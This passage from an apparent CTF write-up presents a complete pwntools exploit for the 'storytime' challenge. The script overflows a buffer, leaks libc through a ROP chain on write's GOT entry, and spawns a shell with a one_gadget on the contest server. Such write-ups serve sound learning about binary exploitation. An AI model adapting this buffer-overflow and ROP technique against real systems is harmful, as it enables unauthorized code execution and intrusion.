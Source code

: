 Putting it all together, we get the following exploit. If you want to run it locally with a different version of libc, you can either swap it out with something like `LD_PRELOAD`, or just switch the `libc` variable to point to the libc version you're using. If you do do that, you will also need to update the one_gadget offset too:

```
from pwn import *

# Establisht the target
#target = process('./storytime')
#gdb.attach(target, gdbscript = 'b *0x40060e')
target = remote("pwn.hsctf.com", 3333)

# Establish the libc version
libc = ELF('libc.so.6')
#libc = ELF('libc-2.27.so')


#0x0000000000400701 : pop rsi ; pop r15 ; ret
popRsiR15 = p64(0x400701)

# Got address of write
writeGot = p64(0x601018)

# Filler to reach the return address
payload = "0"*0x38

# Pop the got entry of write into r15
payload += popRsiR15
payload += writeGot
payload += p64(0x3030303030303030) # Filler value will be popped into r15

# Right before write call in end
payload += p64(0x400601)

# Filler value that will be popped off in end
payload += p64(0x3030303030303030)

# Address of climax, we will exploit another buffer overflow to use the rop gadget
payload += p64(0x40060e)

# Send the payload
target.sendline(payload)

# Scan in some of the output
print target.recvuntil("Tell me a story: \n")

# Scan in and filter out the libc infoleak, calculate base of libc
leak = u64(target.recv(8))
base = leak - libc.symbols["write"]
print hex(base)

# Calculate the oneshot gadget
oneshot = base + 0x4526a

# Make the payload for the onshot gadget
payload = "1"*0x38 + p64(oneshot)

# Send it and get a shell
target.sendline(payload)
target.interactive()
```
